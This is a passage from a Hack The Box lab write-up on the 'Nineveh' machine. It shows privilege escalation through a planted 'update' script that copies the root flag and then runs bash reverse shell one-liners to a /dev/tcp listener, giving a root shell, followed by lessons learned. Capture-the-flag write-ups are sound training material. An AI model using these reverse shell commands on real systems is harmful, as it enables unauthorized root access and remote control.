 And... insert some useful code. For the first test I tried something to just touch a file and see who owned it, and also to dump the `root.txt` flag to another file in `/tmp`.

```none
#!/bin/bash

echo $(id) > /tmp/id.txt
cat /root/root.txt > /tmp/root.txt
```

After that test worked, tried to get a reverse shell using the same exploit.

```none
amrois@nineveh:/tmp$ cat update 
#!/bin/bash

bash -c 'exec bash -i &>/dev/tcp/10.10.14.56/9003 <&1'
```

For my notes, here is the one liner I used to populate the file:

```none
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1' > update
```

And... a reverse shell!

```none
└─$ nc -lvnp 9003                                 
listening on [any] 9003 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.10.43] 42682
bash: cannot set terminal process group (3241): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Lessons Learned

- In more complex boxes, remember that intel will most likely need to be joined
- Always look at HTB categories - in this example knocked was specified
- Steganography seems common in HTB - add this to current methodology
- Always document bare minimum exploits to get access again when stop/starting a box
- Use more privesc scripts to find issues - combining them helps

## Useful Resources

- [HackTheBox Nineveh - ippsec](https://www.youtube.com/watch?v=K9DKULxSBK4)
- [HTB: Nineveh by 0xdf](https://0xdf.gitlab.io/2020/04/22/htb-nineveh.html)

